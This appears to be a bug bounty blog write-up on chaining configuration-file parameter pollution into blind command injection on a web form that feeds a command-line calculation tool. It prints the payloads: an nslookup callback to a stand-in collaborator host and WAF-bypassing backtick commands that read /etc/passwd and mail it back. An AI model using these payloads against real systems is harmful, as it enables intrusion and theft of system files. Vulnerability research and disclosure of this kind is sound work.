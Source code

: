 ```yaml
---                                                                                                                                                                                                                                   
layout: default
title:  "Backend Parameter Injection --> RCE"
date:   2023-03-14 11:02:21 0100
author: Sysdum
---  
```

## Background

After performing my recon on a private program, I came across a pretty standard web form that accepted around 10 different numerical values, performed some calculations, and then emailed the results back to the user. The exact nature of the application was unknown to me as the math it was performing was well beyond what I have learned.

This behavior piqued my interest as this was on a more obscure subdomain, it accepted a lot of variables, and probably passed input to something that wasn't designed for the web. 

Here is an example of what the web form looked like:
![Web-Form](/assets/param-rce-web-form.jpg)

After submitting the form a few times, I got the impression that the application was not being stored in any permanent manner and may instead be using temporary files. The parameters were also unusual, as there were many client-side checks to ensure the numbers were within an acceptable range for the back-end application. 

After brute-forcing some numerical values, I finally got an email with output that seemed designed for a command line tool. I get excited any time I see back-end command line functionality reflected anywhere in a web app. Chances are decent that there may be a command injection vulnerability if we can figure out how to smuggle a command to the back-end service.

![Email-Output](/assets/param-rce-email-output.jpg)

Any time I find an interesting application, I first check if it is open-source so that I can see how it works. I googled the variable names within the response and found a repository (let's call it CalcTool) on GitHub. After looking over the readme, I learned CalcTool reads a configuration file and generates output very similar to the email I received.

This raised several questions. Is this application passing data directly to CalcTool's configuration file? If so, can I exploit its behavior somehow?

## CalcTool Code Review

I looked over the sample configuration file on GitHub and found that the form values lined up exactly with the variables on the web form. This confirmed my suspicion that the web app was passing input to CalcTool. 

My next goal was to determine if there was any dangerous functionality within CalcTool that I could hit from the web application. I decided to try and locate dangerous function calls such as exec, execv, and system. These calls are usually vulnerable to command injection if the attacker can pass arbitrary input to these functions.

After some time, I found exactly one system() call. It was in an email function that dynamically constructed the arguments from the CalcTool configuration file:

```plaintext
margs = "-s CalcTool Output: '" + jobtitle + "' " + email + " < LOGFILE"
System ("mail" + text)
```

The end result of these string operations is the following command:

```plaintext
mail -s 'CalcTool Output: job173' email@example.com < /path/to/LOGFILE
```

Unfortunately, I only had access to the email variable. On top of that, the web application used a regular expression to filter out any useful special characters like: \` $ ( ). 

At this stage we know the following so far:

*   The web application passes web form values in a one-to-one fashion to CalcTool's config file.
*   There is only one form value that **we control** that is passed to a system() call within CalcTool, which is our best chance at exploitation.
*   The goal is to find a way to pass something we control directly to that system call

### Polluting the Configuration

Bypassing filters can be tricky. In web applications, one common filter bypass technique is parameter pollution.

PortSwigger defines parameter pollution as:

```plaintext
HTTP Parameter Pollution tests the applications response to receiving multiple HTTP parameters with the same name; for example, if the parameter username is included in the GET or POST parameters twice.

Supplying multiple HTTP parameters with the same name may cause an application to interpret values in unanticipated ways. By exploiting these effects, an attacker may be able to bypass input validation, trigger application errors or modify internal variables values. 
```

Now, we know the web application accepts the variables as multi-part form data, which is not typically vulnerable to HTTP parameter pollution. However, I noticed that CalcTool's configuration file had a few other numeric variables that lined up with similar ones from the web form. 

If the web application was writing these values to a CalcTool configuration file, then what would happen if a variable were defined more than once?

Here is an example of what a configuration file looks like:

```plaintext
Title "job title"
Email "email@example.com"
LOGFILE "log.txt"
Parameter_a 10
Parameter_b 1.4
```

It is a simple text file with a parameter followed by a "value" on each line.

I decided to apply the concept of HTTP parameter pollution to the configuration file. Thus I tried polluted the job title variable using one of the numeric form values. If I could set the title to the word "polluted", then the subject of my email should read "CalcTool Output: Polluted" instead of the normal "JobOutput\_1948333".

After pollution, the form value looked something like this:

```plaintext
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title "polluted"
-------------------------384837281
```

10 is the original value of the frequency form value, and I added a new line with the polluted title variable.

My goal was for the configuration file to look like this:

```plaintext
Title "jobid12"
...
Range 300
Frequency 10
Title "polluted"
```

For this to work, the application would need to keep **only** the **last** declaration of the title variable instead of keeping the first declaration. I then used BurpSuite's intercept feature to catch the form and add the polluted variable on a new line. I received the following email:

![Polluted Job](/assets/param-rce-job-polluted.jpg)

This output means that the pollution worked!

The next step was to prove a command injection vulnerability. Due to the mail command not retuning its output directly to me, this is essentially a blind command injection. Therefore, I needed an out-of-band method of exfiltrating data. I tried the following payload using Burp Collaborator:

```plaintext
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title "$(nslookup mycollaborator.com)"
-------------------------384837281
```

After sending the request and editing it with Burp, this time I was met with a 403 forbidden status from the web server. After trying a couple of other common payloads, I discovered that the application was behind a Web Application Firewall (WAF). 

It was configured to block most Linux commands and would not allow $() or {} at all.

However, backticks were allowed. So I tried the following variant:

```plaintext
...
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title `a=nslo;b=okup;$a$b mycollaborator.com`
...
```

This payload does the following:

*   Declares a variable and sets it to be the value “nslo”
*   Declares a variable b and sets it to be the value “okup”
*   Runs the command $a$b which combines a and b to form the nslookup command. Then I simply passed it mycollaborator.com (a placeholder for the actual collaborator URL) in order to get my lookup.

After checking my collaborator client, I saw some activity! This means my blind command injection worked. However, I needed to exfiltrate data in order to prove remote code execution.

```plaintext
...
-------------------------384837281
Content-Disposition: form-data; name="frequency"

10
Title `a=ca;b=t;$a$b /e*c/pa*s*d > /tmp/synack77`
LOGFILE /tmp/synack77 
...
```

### Here is a breakdown of the final exploit chain:

*   CalcTool's configuration file allows for the definition of a log file.
*   The email function I showed earlier reads this log into the body of the email in order to send the results back to the user.
*   I needed to pollute the title parameter with a payload to write command results to a file.
*   Then I required a way to send the results back to me, so I polluted the logfile parameter to the command result file.
*   The results of the calculations would be overwritten by my command, and then the mail command would email me the results of my command

![Final Payload](/assets/param-rce-final-payload.png)

Here is how the payload looks when it is ran by CalcTool:
```plaintext
mail -s "CalcTool Output: `a=ca;b=t;$a$b /e*c/pa*s*d > /tmp/synack77`" email@gmail.com < /tmp/synack77
```

The command within the back ticks is executed before the mail command is run. Therefore, the output of our command will be stored in /tmp/synack77 before the mail command runs and we get an email with the results of our command. In this case we are reading /etc/passwd. 

Finally, I received an email results of the cat /etc/passwd command:
![Payload Contents](/assets/param-rce-email-output-passwd.jpg)


Thanks for reading!
